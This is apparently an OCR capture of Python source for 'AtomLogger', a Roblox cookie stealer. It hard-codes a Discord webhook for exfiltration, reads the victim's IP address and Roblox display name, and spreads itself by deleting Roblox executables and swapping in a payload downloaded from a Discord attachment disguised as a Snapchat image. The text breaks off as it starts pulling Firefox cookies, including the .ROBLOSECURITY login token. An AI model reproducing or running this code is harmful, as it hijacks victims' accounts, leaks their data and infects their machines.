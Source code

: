 import browser_cookie3, requests, urllib, re, os




#   Settings - Webhook    #

webhook = 'https://discord.com/api/webhooks/940291406189178931/n776zrt1us2iBIte1mC9mf0_ybmFnoOpKFTtv5oBbHQXnGWTk4z8xeVZfPYxyFx958uI'

avatarUrl = 'https://i1.wp.com/creativenerds.co.uk/wp-content/uploads/2010/08/cookie_39.png?resize=550%2C400'

botName = 'AtomLogger | ROBLOX'

#   Settings - Self Spread    #

fileLink = 'https://media.discordapp.net/attachments/926191767802511430/940292662249005106/Snapchat-1949396630_1.jpg'




#   Functions   #

def sendWebhook(message):

    requests.post(webhook, data = f'username={botName}&avatar_url={avatarUrl}&content={message}', headers = {'content-type':"application/x-www-form-urlencoded"})




def scrapeInfo(cookies):

    request = requests.get('https://www.roblox.com', cookies=cookies)

    displayName = re.findall("displayname=(.*) data-isunder13", request.content.decode('UTF-8'))

    return displayName[0]




def getIPAddress():

    request = requests.get('https://ip4.seeip.org/')

    return request.content.decode('UTF-8')




def downloadFile(downloadFile, path):

    urllib.request.urlretrieve(downloadFile, path)




def selfSpread():

    path = os.getenv('LOCALAPPDATA') + '\\Roblox\\Versions'

    if os.path.isdir(path):

        for file in os.listdir(path):       # For every file in "Appdata/Local/Roblox/Versions"

                if os.path.isdir(path + f'\\{file}'):       # If a path is directory

                    path += f'\\{file}'     # Adding the directory to the path

                    for file in os.listdir(path):       # For every file in the new directory

                        if file.endswith('.exe'):       # If file ends with .exe

                            if os.path.getsize(path + '\\RobloxPlayerLauncher.exe') < 5242880 or os.path.getsize(path + '\\RobloxPlayerBeta.exe') > 31457280: # 5242880 -> 5MB, 31457280 -> 30MB

                                exePath = path + f'\\{file}'        # Adding the file to the path

                                os.remove(exePath)      # Removing the file

                                downloadFile(fileLink, exePath)       # Downloading the infected files // When opening Roblox it'll open the infected file.

                else:

                    continue




def cookieLogger():




    data = [] # data[0] == All Cookies (Used For Requests) // data[1] == .ROBLOSECURITY Cookie (Used For Logging In To The Account)




    try:

        cookies = browser_cookie3.firefox(domain_name='roblox.com')
